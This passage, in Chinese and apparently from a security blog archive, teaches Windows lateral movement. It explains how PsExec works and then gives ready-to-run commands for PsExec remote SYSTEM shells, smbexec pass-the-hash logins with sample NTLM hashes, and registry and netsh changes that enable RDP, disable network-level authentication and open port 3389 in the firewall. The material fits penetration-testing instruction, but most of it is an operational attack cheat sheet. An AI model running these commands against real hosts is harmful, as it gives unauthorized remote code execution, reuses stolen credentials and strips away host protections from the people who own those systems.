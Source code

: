 psexec 是 windows 下非常好的一款远程命令行工具。psexec的使用不需要对方主机开方3389端口，只需要对方开启admin$共享 (该共享默认开启)。但是，假如目标主机开启了防火墙，psexec也是不能使用的，会提示找不到网络路径。由于PsExec是Windows提供的工具，所以杀毒软件将其列在白名单中。

**PsExec的基本原理**：

- 通过ipc$连接，释放二进制文件psexecsvc.exe到目标
- 通过服务管理SCManager远程创建一个psexec服务，并启动服务
- 客户端连接执行命令，服务端通过服务启动相应的程序执行命令并回显数据
- 运行结束后删除服务

**psexec的使用前提：**

- 对方主机开启了 admin$ 共享，如果关闭了admin$共享，会提示：找不到网络名
- 对方未开启防火墙或放行445端口
- 如果是工作组环境，则必须使用administrator用户连接（因为要在目标主机上面创建并启动服务），使用其他账号(包括管理员组中的非administrator用户)登录都会提示访问拒绝访问。
- 如果是域环境，即可用普通域用户连接也可以用域管理员用户连接。连接普通域主机可以用普通域用户，连接域控只能用域管理员账户。

用法：

`psexec.exe -accepteula \\192.168.1.131 -u Administrator -p 123qwe@ -s cmd.exe  # -accepteula 禁止弹出许可证对话框  # -s 以SYSTEM权限启动进程`

如果已经建立IPC连接，那么可以直接使用psexec连接远程主机

`psexec.exe -accepteula \\192.168.1.131 -s cmd.exe`

或者不提取shell，直接用目标系统的cmd.exe的/c选项在目标主机上执行命令，并得到回显（与前面的at命令相似）

`PsExec.exe \\192.168.1.131 <Command> PsExec.exe \\192.168.1.131 cmd.exe /c "ipconfig" PsExec.exe \\192.168.1.131 -u Administrator -p 123qwe@ cmd.exe /c "ipconfig"`

## [smbexec](https://tttang.com/archive/1890/#toc_smbexec)

**无需先 ipc 链接**， 明文或 hash 传递（第三方库）

`smbexec uf9n1x/administrator:123qwe@@192.168.1.131 smbexec ./administrator:123qwe@@192.168.1.131 smbexec -hashes :$HASH$ ./admin@192.168.1.131 smbbexec -hashes :$HASH$ domain/admin@192.168.1.131 smbexec -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.1.131 smbexec -hashes :ccef208c6485269c20db2cad21734fe7 uf9n1x/administrator@192.168.1.131`

# [远程桌面调用](https://tttang.com/archive/1890/#toc__3)

远程桌面协议（Remote Desktop Protocol，RDP）

查询注册表确定是否主机开启了远程桌面

`reg query "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections  # 若字段值为0，则表示已启动RDP；若为1，则表示禁用RDP`

开启远程桌面

`# 开启远程桌面  reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f  # 关闭“仅允许运行使用网络级别身份验证的远程桌面的计算机连接”（鉴权）  reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0   # 设置防火墙策略放行3389端口  netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow`
